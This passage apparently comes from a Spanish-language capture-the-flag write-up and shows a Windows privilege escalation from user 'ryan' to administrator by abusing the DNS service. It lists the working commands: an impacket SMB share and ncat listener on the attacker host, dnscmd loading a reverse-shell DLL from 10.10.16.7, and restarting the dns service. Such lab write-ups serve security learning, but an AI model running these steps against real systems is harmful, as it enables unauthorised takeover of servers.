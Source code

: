 Luego iniciaremos un servidor por el servicio `smb` en nuestra maquina atacante y también ponernos a la escucha con `ncat`

```python
❯ impacket-smbserver smbFolder $(pwd) -smb2support
❯ ncat -lnvp 443

```

Finalmente debemos de ejecutar los comandos en la maquina victima

- Configurar o agregar nuestra `dll` maliciosa

```python
*Evil-WinRM* PS C:\Users\ryan\files> dnscmd.exe /config /serverlevelplugindll \\10.10.16.7\smbFolder\dll_revershell.dll
```

- Para el servicio de `dns`

```python
*Evil-WinRM* PS C:\Users\ryan\files> sc.exe stop dns
```

- Iniciar el servicio `dns`

```python
*Evil-WinRM* PS C:\Users\ryan\files> sc.exe start dns
```


![20240329190215.png](20240329190215.png)

## Usuario : administrator

Si todo se ejecuto correctamente deberiamos obtener una shell a nombre del usuario `administrator`
